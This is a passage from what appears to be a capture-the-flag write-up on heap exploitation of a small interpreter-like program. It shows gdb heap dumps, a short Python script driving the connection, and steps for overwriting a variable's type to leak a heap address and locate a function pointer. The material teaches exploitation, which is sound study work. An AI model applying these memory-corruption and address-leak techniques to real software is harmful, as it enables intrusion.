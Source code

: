 ```
    [0x0000557fb49ab380     58 58 58 58 58 58 58 58 00 00 00 00 00 00 00 00    XXXXXXXX........]
```
First, note that, as we erased the size of the next chunk in the log chunk, the view of the chunks is totally destroyed. Whatever, the memory is still organized the same, and we know that a log chunk is `0x20` bytes like a variable chunk:
```
gef➤  x/16wx 0x557fb49ab360
0x557fb49ab360:	0x00000003	0x24676f6c	0x58726176	0x58585858
0x557fb49ab370:	0x58585858	0x58585858	0x58585858	0x58585858
0x557fb49ab380:	0x58585858	0x58585858	0x00000000	0x00000000
0x557fb49ab390:	0xb49ab3a0	0x0000557f	0x00000021	0x00000000
```
Bingo! We overwrite the type of the variable. Let's now look what happens when we try to print the value of this variable:
```
# Create a new log to avoid continuing
# to overwrite the log chunks
r = conn.recvuntil(b'> ')
print(r)
conn.send(b'log\n')

# Add $var to $z to display only $var
r = conn.recvuntil(b'> ')
print(r)
conn.send(b'$(($var+$z))\n')

# Get the content of $var
r = conn.recvuntil(b'> ')
print(r)
```
When we run the script, we can see that a large number is printed at the end:
```
b'93954791658400\n> '
```
This number corresponds to the address of `str` in the heap. Let's check this using gdb:
```
gef➤  x/24wx 0x55738dfb5360
0x55738dfb5360:	0x00000003	0x24676f6c	0x58726176	0x58585858
0x55738dfb5370:	0x58585858	0x58585858	0x58585858	0x58585858
0x55738dfb5380:	0x58585858	0x58585858	0x00000000	0x00000000
0x55738dfb5390:	0x8dfb53a0	0x00005573	0x00000021	0x00000000
0x55738dfb53a0:	0x00727473	0x00000000	0x00000000	0x00000000 <- we have leaked this address
0x55738dfb53b0:	0x00000000	0x00000000	0x00000051	0x00000000
```
Here are the three chunks from the log chunk. So we can see that the `0x58` that corresponds to our `X`, the type that has been erased at address `0x55738dfb5388`, and the address of the string in the variable which is `0x000055738dfb53a0`. If we convert this address in decimal, we get `93954791658400` which is the value printed by the program.
### Compute address of `print` pointer
What we would like is to leak the address pointed by a `print` pointer to get a pointer to the code section. First, we need to compute where one of this pointer is located into memory. We have one pointer per variable object. As we already created two variables, we should have two pointers. However, we overwrote the pointer of the variable `$var`. But we still can compute the address of the pointer of the variable `$z`. Let's look again at the heap from the first log:
```
gef➤  heap chunks
[...]
Chunk(addr=0x55738dfb3eb0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055738dfb3eb0     01 00 00 00 24 7a 00 00 00 00 00 00 00 00 00 00    ....$z..........] <- first log
Chunk(addr=0x55738dfb3ed0, size=0x410, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055738dfb3ed0     3e 20 39 35 34 37 39 31 36 35 38 34 30 30 0a 67    > 954791658400.g] <- std::cin buffer
Chunk(addr=0x55738dfb42e0, size=0x1010, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
```